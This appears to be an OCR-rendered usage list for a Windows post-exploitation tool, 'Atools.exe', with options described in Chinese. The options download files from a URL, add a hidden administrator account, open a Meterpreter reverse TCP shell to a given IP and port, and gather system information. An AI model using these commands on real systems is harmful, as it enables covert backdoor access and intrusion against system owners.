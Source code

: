 Atools.exe -h | help

Atools.exe -d url |下载

Atools.exe -u user pass |添加一个用户并加入到管理员组

Atools.exe -s user | 禁止交互式登陆时在登陆界面隐藏指定用户

Atools.exe -r ip port |windows/meterpreter/reverse_tcp

Atools.exe -i | 系统信息收集
